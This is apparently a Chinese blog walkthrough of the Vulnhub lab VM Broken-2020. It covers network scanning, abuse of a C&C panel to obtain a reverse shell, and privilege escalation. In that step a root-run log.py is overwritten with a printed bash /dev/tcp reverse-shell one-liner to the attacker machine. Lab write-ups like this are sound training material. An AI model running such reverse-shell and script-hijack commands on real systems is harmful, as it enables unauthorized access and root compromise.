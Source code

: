 ```yaml
---
title: 'Broken-2020 : Walkthrough'
date: 2020-05-28T19:12:10+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机         | IP              |
| ----------- | --------------- |
| 本机（Win10）   | `192.168.1.105` |
| Kali        | `192.168.1.112` |
| Broken-2020 | `192.168.1.108` |

### 扫描端口和版本信息

`nmap -A 192.168.1.108`

![1.png](https://i.loli.net/2020/05/28/h92FWLOuslYQp8V.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache** 服务器

![2.png](https://i.loli.net/2020/05/28/ubf5OskahQpA3L8.png) 

简单查看源码后无异常，但使用扫描工具发现其他路径，访问路径 `http://192.168.1.108/cms/` 得到 **flag1**

![3.png](https://i.loli.net/2020/05/28/4UcKCZIMoDlbOTP.png) 

继续访问路径 `http://192.168.1.108/cms/cc` 发现存在 C&C server 后台

![4.png](https://i.loli.net/2020/05/28/UoJ1WIfKscPHnei.png) 

本以为可能存在命令注入，不过测试后发现可以建立远程连接，并且会请求某一名称脚本

![5.png](https://i.loli.net/2020/05/28/1XKD2OltgbLJvzw.png) 

接下来的步骤很明显，只要在 Kali 当前目录上新建该脚本名称，并写入反向 shell 脚本。此外开启 HTTP Server，并在虚拟机上请求即可 getshell

### Getshell

![6.png](https://i.loli.net/2020/05/28/TnNLlEa234tB65P.png) 

如上图所示，该脚本会建立 bash shell 连接，反向连接 Kali **4455** 端口。在 `/home/alice` 路径下得到 **flag2**

![7.png](https://i.loli.net/2020/05/28/ru8d6y31RfzCpVt.png) 

此外根据提示知道 _root_ 用户会执行脚本清理 Apache 日志，至于执行的哪个脚本，想必就是 `/home/alice/script/log.py`，当然可以通过 **pspy64** 来确认

![8.png](https://i.loli.net/2020/05/28/6g2VsiSA7xBljqK.png) 

### 提权

修改 `log.py` 里的内容，建立 shell

<pre><code class="language-shell line-numbers">echo "import os;os.system(\"bash -c 'bash -i &gt;& /dev/tcp/192.168.1.112/7788 0&gt;&1'\")" &gt; log.py
chmod +x log.py
</code></pre>

Kali 上监听 **7788** 端口，在 `/home/alice/backup/` 路径下得到 **flag3**

![9.png](https://i.loli.net/2020/05/28/BP9GiMcfg3bCQVA.png) 

看来只要将路径名写入 `path.txt` 文件里，`root` 账户就会将备份该路径的内容。结果显而易见，最后的 flag 就在 `/root` 路径下，因此我们将该路径写入 `path.txt` 文件里就会得到 `/root` 路径下的内容

![10.png](https://i.loli.net/2020/05/28/SceaiHlY5OTgZNh.png)
